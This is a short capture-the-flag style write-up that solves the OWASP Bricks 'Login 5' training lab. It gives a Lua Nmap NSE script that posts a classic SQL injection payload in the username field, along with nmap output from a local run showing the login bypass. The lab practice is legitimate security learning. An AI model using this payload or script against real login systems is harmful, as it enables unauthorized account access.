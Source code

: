 ```yaml
---
date: '2024-12-03T16:23:41+08:00'
title: 'Bricks Login 5'
tags:
    - OWASP-Bricks
    - NSE
---
```


## Challenge Information

- [OWASP Bricks](https://sechow.com/bricks/)
- Docker version: [here](https://hub.docker.com/r/gjuniioor/owasp-bricks)


> This is a series where I will write my own Nmap NSE script to solve that challenge. This is actually a task given by [masta ghimau](https://www.youtube.com/@mastaghimau) during [MCC 2023](https://cybercamp.my/mcc2023-the-journey-begins/).

## Challenge Solution

Login level 5 is just a simple SQL injection which will convert password into md5 hash. We could easily overcome it by injecting in username field.

```lua
local http = require "http"
local shortport = require "shortport"

portrule = shortport.http

action = function(host,port)
  local resp,final,query
  r={}
  r['username']="a' OR 1=1-- a"
  r['passwd']="test"
  r['submit']="Submit"
  resp = http.post(host,port,"/login-5/index.php",nil,nil,r)


  final = string.match(resp.body, '<p>.*alert%-box.->(.-)<a.*</p>')
  query = string.match(resp.body, ".*SQL Query(.*)<a.*</div>")

  return {payload = r ,SQLQuery = query , result = final}
end
```

This code is built based on `http-title.nse`.

```bash
nmap -p 80 --script=chall5.nse 127.0.0.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 20:51 +08
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00015s latency).

PORT   STATE SERVICE
80/tcp open  http
| chall1:
|   result: Succesfully logged in.
|   SQLQuery: : SELECT * FROM users WHERE name='a' OR 1=1-- a' and password='098f6bcd4621d373cade4e832627b4f6'
|   payload:
|     submit: Submit
|     username: a' OR 1=1-- a
|_    passwd: test

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

## Things I learned from the challenge

- Writing custom NSE script

